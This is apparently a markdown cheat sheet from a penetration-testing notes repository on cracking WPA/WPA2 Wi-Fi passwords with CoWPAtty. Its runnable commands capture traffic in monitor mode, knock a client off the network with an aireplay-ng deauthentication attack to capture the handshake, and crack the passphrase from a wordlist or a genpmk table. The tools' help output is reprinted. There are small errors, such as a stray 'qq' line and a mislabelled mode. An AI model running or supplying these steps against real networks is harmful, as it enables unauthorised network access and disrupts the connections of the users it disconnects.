

# CoWPAtty Attack (WPA/WPA2)

Use CoWPAtty to crack the password in either dictionary/wordlist mode (plaintext) or hash/rainbow. The latter is quicker.

## Installation

```bash
# Install cowpatty/genpmk
sudo apt-get update
sudo apt-get install cowpatty -y
```

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq

# Check if four-way handshake is indeed valid
cowpatty -r $PCAP -c
```


## WORDLIST Mode

* Crack the password in hash mode (slowest)

```bash
# Crack the password in dictionary mode
# Cowpatty running wordlist is slower than aircrack-ng
cowpatty -r $PCAP -f $WORDLIST -s $SSID
```


## RAINBOW Mode

* Crack the password in hash mode (fastest)

```bash
# Need to first generate a RAINBOW table based on a provided WORDLIST/SSID
genpmk -f $WORDLIST -d $RAINBOW -s $SSID

## Crack the password with the RAINBOW table and filter by SSID
cowpatty -r $PCAP -d $RAINBOW -s $SSID
```


## References

* [cowpatty](https://www.willhackforsushi.com/?page_id=50)

```text
cowpatty -h
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Usage: cowpatty [options]

        -f      Dictionary file
        -d      Hash file (genpmk)
        -r      Packet capture file
        -s      Network SSID (enclose in quotes if SSID includes spaces)
        -c      Check for valid 4-way frames, does not crack
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit
```

```text
genpmk -h
genpmk 1.3 - WPA-PSK precomputation attack. <jwright@hasborg.com>
Usage: genpmk [options]

        -f      Dictionary file
        -d      Output hash file
        -s      Network SSID
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit

After precomputing the hash file, run cowpatty with the -d argument.
```



## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Cowpatty](https://www.willhackforsushi.com/?page_id=50)
* [Rainbow Tables](https://en.wikipedia.org/wiki/Rainbow_table)
